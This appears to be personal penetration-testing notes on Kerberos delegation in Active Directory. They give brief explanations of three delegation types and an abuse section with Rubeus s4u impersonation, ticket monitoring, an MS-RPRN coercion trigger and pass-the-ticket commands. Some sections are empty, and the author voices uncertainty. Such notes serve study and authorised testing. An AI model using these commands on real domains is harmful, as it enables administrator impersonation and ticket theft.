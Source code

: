 # Delegations

## Theory

Kerberos delegation allow to "reuse the end-user credentials to access resources osted on a different server"\


<figure><img src="../../../../.gitbook/assets/Pasted image 20230911095916 (1).png" alt=""><figcaption></figcaption></figure>

Delegation allows the web server to impersonate the user to access its files, making the file server believe that the user is performing the actions. The ability to relay credentials can be given to an account that has at least one SPN. The types of delegation today are three:

* Uncostrained Delegation
* Constrained Delegation
* Resource Based Constrained Delegation

## **Uncostrained Delegation**

With this type of delegation, the server or service account to which delegation is granted can impersonate the user for any service or host.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103746 (1).png" alt=""><figcaption></figcaption></figure>

## **Constrained Delegation**

The delegate will have a list of users for whom they have delegation and a list of services or servers they can access with specific delegations.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103801.png" alt=""><figcaption></figcaption></figure>

## **Resource Based Constrained Delegation**

Like the constrained delegation, but this tike the delegation authority is the resource host itself.

<figure><img src="../../../../.gitbook/assets/Pasted image 20230911103731.png" alt=""><figcaption></figcaption></figure>

## Abuse

### Constrained Delegation

With the account with the permission's hash launch rubeus to ask a tgt as administrator

{% code overflow="wrap" %}
```powershell
./Rubeus.exe s4u /user:<USER> /aes256:<AES256 HASH> /impersonateuser:Administrator /msdsspn:"<FOUND SERVICE>" /ptt
```
{% endcode %}

### Unconstrained Delegation



### Resource Based Constrained Delegation



### Monitor for Delegation

idk if it's really a delegation&#x20;

Launch rubeus

```powershell
./Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```

&#x20;Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)

```powershell
./MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```

Rubeus is triggered

Copy the ticket and use it with rubeus on the local machine

```powershell
./Rubeus.exe ptt /ticket:<TICKET>
```
